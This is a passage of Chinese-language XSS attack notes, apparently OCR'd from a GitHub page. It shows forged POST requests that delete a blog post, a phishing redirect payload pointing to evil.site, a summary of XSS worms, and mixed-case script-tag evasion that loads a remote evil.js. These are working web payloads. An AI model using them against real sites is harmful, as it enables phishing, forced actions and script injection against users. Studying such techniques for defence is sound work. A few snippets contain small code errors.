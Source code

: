 #### POST

1. 表单格式

   ```js
   # 删除博客
   var form = document.createElement('form');
   form.method = 'POST';
   form.action = 'http://blog.example.com/del';
   document.body.appendChild(form);
   var i1 = document.createElement("input");
   i1.name = 'id';
   i1.value = '123';
   form.appendChild(i1);
   form.submit();
   ```

2. JSON格式，利用创建HTTP请求的JavaScript API

   ```js
   # 删除博客
   var xhr = XMLHttpRequest();
   var json = {
       "id": "123"
   };
   xhr.open('POST', '/del');
   xhr.setRequestHeader('Content-Type', 'application/json');
   xhr.send(JSON.stringify(json));
   ```

### XSS 钓鱼

> 利用可信域名URL实行跳转

```
http://example.com/echo.php?name=<script>window.location='http://evil.site';</script>
```

## XSS 蠕虫

> 利用服务端软件或者系统漏洞传播

1. MySpace简介，通过AJAX构建POST请求：

   > https://samy.pl/myspace/tech.html

2. 人人网站发送站内信引诱所有好友，\<script\>标签过滤不严

## 攻击技巧

### 基本变形

1. HTML标签大小写不敏感

   ```html
   <sCrIpT>alert(1)</sCrIpT>
   <sCrIpT SrC="http://evil.site/evil.js"></sCrIpT>
   ```
